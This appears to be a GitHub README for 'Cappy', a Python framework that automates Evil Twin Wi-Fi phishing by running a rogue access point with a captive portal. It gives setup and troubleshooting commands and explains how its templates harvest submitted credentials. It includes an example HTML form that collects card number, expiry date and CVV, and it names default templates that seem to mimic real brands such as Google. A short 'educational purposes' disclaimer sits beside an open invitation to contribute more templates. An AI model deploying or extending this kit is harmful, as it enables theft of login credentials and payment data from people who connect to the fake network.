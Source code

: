 <div align="center">
  
##   $${\color{orange}Cappy}$$ 
  
</div>
  
<div>
  
**Evil Twin** is a phishing technique categorized under network attacks, it involves the creation of a **rogue wireless access point (AP)** that masquerades as a legitimate network, such as a public Wi-Fi hotspot or a familiar network with a captive portal, to deceive users into connecting and unknowingly divulging their sensitive login credentials and other personal information transmitted over the compromised connection. 
</div>

<br />

> [!TIP]
> <strong>Cappy, a framework that automates the attack, must be used only in clear, educational purposes.<br /> Any action outside of that context is highly unrecommended, and may result in legal consequences</strong>

# Introduction

**Python** tool, that automates the process of setting up captive portal on Linux machines, with some tweaks.

> [!NOTE]
> This software was tested on: <strong>Kali Linux, KaliPi, ParrotOS</strong><br />
> In case of any trouble, create an issue and describe the error

<br />

**Cappy** operation scheme:

```
  Check Dependencies ---> Choose network interface
          |                ^         |                                                                         
          | missing?       |         └ Change mac address                      Run captive portal <--- Select Template
          |                |                   |                                       |                       |
  Install Dependencies -   |                   └ Menu Screen                           └ Capture credentials   |
                       |_ _|                          | start?                                                 |
                                                      └ Prepare adapter ---> Configure IP Adresses ---> Restart services
                                                      └ Write configs
```

# Setup

**1-A.** Installing Cappy with pip

  <sub>**In most cases, Cappy can handle the setup by itself, so give it a try**</sub>
  
  <sub>This will make 'Cappy' available from any path in the terminal</sub>
  
  ```
    $ git clone https://github.com/FLOCK4H/Cappy
    $ cd Cappy
    $ sudo pip install .
  ```

**1-B.** Running Cappy with Python
   
   <sub>We will need to install dependencies manually</sub>

```
  $ sudo apt-get update
  $ sudo apt-get install lighttpd hostapd dnsmasq
  $ cd Cappy
  $ sudo python Cappy
```

# Usage

![image](https://github.com/FLOCK4H/Cappy/assets/161654571/ce6ee823-5408-4b14-8f3c-ce33bb53737b)

```
  $ sudo Cappy
```

**Templates** are being saved to the <i> **/usr/local/share/Cappy/templates** </i>folder.

Creating a new template will result in making new directory in that path with a name of the template.

By default, there are 2 endpoints and 5 fields, that we can use in `index.html` of the template:
- /action.html -> username, password, credit, expire, cvv
- /data -> any

Example:
```
<form method='POST' action="http://10.0.0.15:80/action.html">
    <input type='text' name='credit' placeholder="CARD NUMBER"/>
    <input type='password' name='expire' placeholder="EXPIRY DATE"/>
    <input type='password' name='cvv' placeholder="CVV"/>
    <input value='Submit' type='submit'/>
</form>
```

**Device wanting to join the network will be redirected to the `index.html` of the template, where after entering credentials and submitting, will be redirected to the `action.html`, that harvests those credentials and logs to the console.**

**There are 4 default templates**:
- `google`
- `mrhacker`
- `Valentines`
- `mcd`

Help make this number bigger, and message me with your template:

`flock4h@gmail.com \ Topic: Cappy Templates [NEW_TEMPLATE_NAME]`

<div align="center">
  <img src="https://flockahh.b-cdn.net/IMG_2835.png" alt="Result" width="400"/>
</div>

## Troubleshooting

There are numerous reasons for why the Cappy may not work, as it all depends on the network adapter, operating system, and machine capabilities itself.
Carefully read the console when launching the framework, the errors can provide more information on what's going on.

Here are the general steps on how to debug your issue:

1. Ensure dependencies are installed manually

```
  $ sudo apt-get install hostapd dnsmasq lighttpd
```

2. Check paths for conflicts:

```
  $ ls /etc/hostapd
  $ find /etc/dnsmasq.conf
  $ find /usr/local/share/Cappy
```

3. Check logs of the services:

```
  $ sudo systemctl status hostapd
  $ sudo systemctl status dnsmasq

  # If dnsmasq status replied with - 10.0.0.1-150 range is busy, you need to change all 10.0.0.15 and 10.0.0.20-150 entries in the code to other IP and range.
```

> [!TIP]
> In case when troubleshooting steps did not work; please create an issue

## TODO

- [ ] Add run arguments
- [ ] Stable release
- [ ] PyPi release

## LICENSE

$${\color{orange}MIT}$$ 
THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
